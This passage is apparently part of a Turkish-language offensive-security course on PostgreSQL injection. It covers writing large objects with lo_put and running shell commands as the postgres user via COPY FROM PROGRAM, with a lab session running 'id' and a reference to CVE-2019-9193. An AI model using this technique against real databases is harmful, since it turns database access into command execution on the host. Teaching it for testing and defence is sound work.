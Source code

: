 Kullanıcı izinlerine bağlı olarak, `INSERT` sorguları başarısız olabilir. Bu durumda, [dokümanlarda](https://www.postgresql.org/docs/current/lo-funcs.html) açıklandığı gibi `lo_put` kullanmayı deneyebilirsiniz:

```shell-session
bluebird=# SELECT lo_put(31337, 0, 'this is a test');
 lo_put 
--------
 
(1 row)
```

#### Permissions

Herhangi bir user large object oluşturabilir veya bağlantısını kaldırabilir, ancak değerlerin import edilmesi, export edilmesi veya güncellenmesi için kullanıcının ya superuser olması ya da açık izinlerin verilmiş olması gerekir. Bu konu hakkında daha fazla bilgiyi [buradan](https://www.postgresql.org/docs/current/lo-interfaces.html) edinebilirsiniz.


# Command Execution

## Introduction

Bu bölümde bir PostgreSQL enjeksiyonu aracılığıyla komutları çalıştırmanın iki yolunu inceleyeceğiz.

## Method 1: COPY

İlk yöntem bir kez daha built-in [COPY](https://www.postgresql.org/docs/current/sql-copy.html) komutunu kullanır. Görünüşe göre, dosyaları okuma ve yazmanın yanı sıra, `COPY` ayrıca bir `programdan` gelen verileri bir tabloda saklamamıza da izin veriyor. Bunun anlamı, `PostgreSQL`'in `postgres` kullanıcısı olarak shell komutlarını çalıştırmasını, sonuçları bir tabloda saklamasını ve bunları okumasını sağlayabileceğimizdir.

```shell-session
bluebird=# CREATE TABLE tmp(t TEXT);
CREATE TABLE
bluebird=# COPY tmp FROM PROGRAM 'id';
COPY 1
bluebird=# SELECT * FROM tmp;
                                   t                                    
------------------------------------------------------------------------
 uid=119(postgres) gid=124(postgres) groups=124(postgres),118(ssl-cert)
(1 row)

bluebird=# DROP TABLE tmp;
DROP TABLE
bluebird=# exit
```

İlginçtir ki, bu fonksiyona bir [CVE (CVE-2019-9193)](https://nvd.nist.gov/vuln/detail/CVE-2019-9193) atanmıştır, ancak PostgreSQL ekibi bunun amaçlanan bir fonksiyon olduğu ve bu nedenle bir güvenlik sorunu olmadığı yönünde bir [açıklama](https://www.postgresql.org/about/news/cve-2019-9193-not-a-security-vulnerability-1935/) yayınlamıştır.
